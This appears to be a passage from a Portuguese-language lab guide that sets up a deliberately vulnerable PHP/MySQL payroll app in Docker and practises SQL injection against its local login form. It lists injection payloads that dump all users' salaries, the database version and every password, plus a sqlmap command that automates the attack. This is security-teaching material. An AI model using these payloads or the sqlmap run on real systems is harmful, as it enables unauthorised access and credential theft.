 2. Aproveitando a tela do terminal, basta entrar na pasta do repo local e disparar o Docker Compose:

```
cd startrek_payroll-main

docker-compose up --build
```

> **Observação:** Esse processo de criar o contêiner pode demorar alguns minutos.

3. Com o contêiner funcionando, ele contém basicamente um sistema PHP com um MySQL 5 (ambos vulneráveis), para acessar a interface de login onde conduziremos alguns cenários de SQL Injection, basta acessar a seguinte URL pelo browser:

```
http://localhost:8080/
```

4. Teste fazer o login com os seguintes cenários propostos pelo autor do repo:

```
Normal login to get users salary:
username: james_kirk
password: kobayashi_maru

Dump username and salary of all users:
username: ' OR 1=1#
password: anythingyouwant

Dump MySQL version:
username: ' UNION SELECT null,@@version#
password: anythingyouwant

Dump all users passwords:
username: ' UNION SELECT username,password FROM users#
password: anythingyouwant
```

5. Observe o log do `webserver` para ver que interessante fica a query completa que é enviada para o `MySQL`.

6. Analisar essas vulnerabilidades de forma manual acaba exigindo muito tempo e não é escalável, então utilizaremos de uma `tool` chamada `SQLMap` que irá automatizar (em certa medida) esse processo.

7. Entre na página da ferramenta (https://sqlmap.org/) e baixe a versão zipada ou o tarball e descompacte na sua pasta de preferência.

8. Abra outro terminal, entre na pasta onde descompactou o `SQLMap` e rode ele com as seguintes flags:

```
python sqlmap.py -u http://localhost:8080/ --batch --banner --method POST --forms
```

> **Observação:** Esse comando buscará vulnerabilidades em um form (--forms) do tipo POST (--method POST) na URL informada, além disso, de forma automatizada (--batch) tentará algumas formas de injetar SQL, buscando também descobrir qual tipo de banco de dados que está sendo utilizado (--banner).
